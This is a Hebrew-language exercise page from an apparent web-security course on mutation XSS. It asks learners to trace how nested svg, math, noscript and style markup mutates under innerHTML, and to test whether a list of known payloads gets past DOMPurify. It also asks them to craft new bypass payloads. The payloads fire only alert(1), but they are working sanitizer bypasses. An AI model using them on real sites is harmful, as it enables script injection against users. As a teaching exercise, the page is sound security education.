

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/4 - תקיפות צד לקוח מתקדמות/4.3 - מוטציית XSS/4.3 - מוטציית XSS - תרגיל/index.html · generator: mkdocs

# מוטציית XSS - תרגיל

## תרגיל 1: הבנת מוטציות

עבור כל אחד מקטעי ה-HTML הבאים, הסבירו מה קורה כשמכניסים אותו ל-`innerHTML` ומה יהיה ה-DOM שנוצר:

### א.

```html
<svg><p>hello</p></svg>
```

### ב.

```html
<math><mi><table><mglyph>text</mglyph></table></mi></math>
```

### ג.

```html
<svg><title><style><a id="test"></style></title></svg>
```

### ד.

```html
<div><noscript><img src=x onerror=alert(1)></noscript></div>
```

לכל אחד: פתחו את DevTools, הכניסו ל-innerHTML, ובדקו את התוצאה.

## תרגיל 2: בדיקת DOMPurify

כתבו סקריפט שבודק אם ה-payloads הבאים עוברים DOMPurify ומה קורה אחרי innerHTML:

```javascript
let payloads = [
  '<svg><title><img src=x onerror=alert(1)></title></svg>',
  '<math><mtext><table><mglyph><style><!--</style><img src=x onerror=alert(1)>',
  '<noscript><p title="</noscript><img src=x onerror=alert(1)>">',
  '<svg></p><style><a id="</style><img src=x onerror=alert(1)>">',
  '<math><annotation-xml encoding="text/html"><img src=x onerror=alert(1)></annotation-xml></math>'
];
```

עבור כל payload:
1. מה DOMPurify מחזיר?
2. האם יש מוטציה אחרי innerHTML?
3. האם ה-XSS מופעל?

## תרגיל 3: יצירת payloads מקוריים

### א. שילוב SVG ו-math

צרו payload שמשלב `<svg>` ו-`<math>` כדי ליצור מוטציה. השתמשו ב-`foreignObject` ו-`annotation-xml`.

### ב. exploit style

צרו payload שמנצל את ההבדל בפרסור של `<style>` בין SVG namespace ל-HTML namespace.

### ג. chaining אלמנטים

צרו payload שמשרשר שלושה אלמנטים שונים כדי ליצור מוטציה שמעבירה `<img onerror>` מטקסט לאלמנט HTML פעיל.
